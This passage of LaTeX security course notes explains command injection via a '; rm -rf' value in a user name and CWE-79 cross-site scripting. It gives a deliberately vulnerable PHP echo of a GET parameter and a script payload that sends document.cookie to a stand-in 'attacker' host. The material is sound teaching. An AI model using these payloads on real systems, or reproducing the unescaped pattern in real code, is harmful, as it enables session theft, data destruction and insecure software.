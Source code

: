 \begin{warnbox}[title={What happens if \texttt{\$userName = `; rm -rf'}?}]
For Linux, \texttt{;} ends a command and starts a new one. The OS runs \texttt{ls -l /home/}
(lists the home directories), then \textbf{whatever comes after the semicolon}: \texttt{rm -rf}
deletes \textbf{recursively} (\texttt{-r}) \textbf{without asking} (\texttt{-f}) everything under
\texttt{/home}. The attacker controls a piece of a command run with the \textbf{server's}
privileges.
\end{warnbox}

\subsection{CWE-79: Cross-site scripting (XSS)}

\begin{defnbox}[title={CWE-79: Improper Neutralization of Input During Web Page Generation}]
Same spirit, but the input is used to \textbf{generate web content} instead of a command. The form
now sends \texttt{userName} by \textbf{GET} (in the URL, after \texttt{?}), and the server greets
the user (``Welcome Rick''):
\begin{lstlisting}[language=PHP]
$username = $_GET['userName'];        // no check on $userName format!
echo '<div class="header"> Welcome, ' . $username . '</div>';
\end{lstlisting}
What if I browse \texttt{http://trustedSite.com/welcome.php?userName=} followed by
\begin{center}
\texttt{<script>alert("You've been attacked!");</script>}\,?
\end{center}
The tags are pasted into the page. When the browser renders it and finds
\texttt{<script>\ldots</script>}, it runs the content with its JavaScript engine: a popup reads
``You've been attacked!''.
\end{defnbox}

\begin{warnbox}[title={From a popup to stealing cookies}]
A more harmful input:
\begin{center}
\texttt{<script>location="http://attacker/submit?cookie=" + document.cookie;</script>}
\end{center}
The script makes the browser request the attacker's URL, with the user's \textbf{cookie for
\texttt{trustedSite.com}} as parameter. Cookies may contain sensitive information (login,
personalization) or security-relevant information: the session token that \textbf{resumes a session
without login and password}. (A popup could also ask for the password and send it.)
\end{warnbox}

